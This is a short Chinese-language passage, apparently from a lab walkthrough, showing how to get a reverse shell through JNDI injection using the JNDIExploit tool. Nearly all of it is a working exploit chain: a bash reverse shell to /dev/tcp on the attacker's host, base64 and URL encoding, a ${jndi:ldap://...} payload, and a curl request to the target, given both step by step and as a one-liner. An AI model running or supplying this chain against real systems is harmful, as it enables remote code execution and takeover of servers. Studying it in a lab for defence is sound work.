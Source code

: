 
- 反弹 Shell 实战

`kaliattacker`安装 `JNDI注入` 利用工具 [JNDIExploit](https://github.com/Mr-xn/JNDIExploit-1)

解压后检查校验和无误：
  
```bash
└─$ shasum -a 256 JNDIExploit-1.2-SNAPSHOT.jar
c96ce1de7f739575d86f2e558aeb97dc691077b31a1c510a3dabf096c827dfa8  JNDIExploit-1.2-SNAPSHOT.jar
```

借助 `JNDIExploit` 工具，反弹 Shell：

```bash
# 反弹 Shell 命令
SHELL_COMMAND="bash -i >& /dev/tcp/192.168.182.130/7777 0>&1"
# Base64 编码
BASE64_PAYLOAD=$(echo -n "$SHELL_COMMAND" | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g')
# 拼接 URL
TARGET_URL="http://192.168.182.129:43381/hello" 
FULL_PAYLOAD="\${jndi:ldap://192.168.182.130:1389/TomcatBypass/Command/Base64/${BASE64_PAYLOAD}}" 
# URL 编码
URL_FULL_PAYLOAD=`echo ${FULL_PAYLOAD} | xxd -plain | tr -d '\n' | sed 's/\(..\)/%\1/g' ` 
# 发送 GET 请求
curl "${TARGET_URL}?payload=${URL_FULL_PAYLOAD}"

# 一行命令
SHELL_COMMAND="bash -i >& /dev/tcp/192.168.38.128/7777 0>&1" && BASE64_PAYLOAD=$(echo -n "$SHELL_COMMAND" | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g') && TARGET_URL="http://192.168.23.129:57589/hello" && FULL_PAYLOAD="\${jndi:ldap://192.168.38.128:1389/TomcatBypass/Command/Base64/${BASE64_PAYLOAD}}" && URL_FULL_PAYLOAD=`echo ${FULL_PAYLOAD} | xxd -plain | tr -d '\n' | sed 's/\(..\)/%\1/g' ` && curl "${TARGET_URL}?payload=${URL_FULL_PAYLOAD}"
```

![](../img/Dracuspicy/20.png)

![](../img/Dracuspicy/19.png)
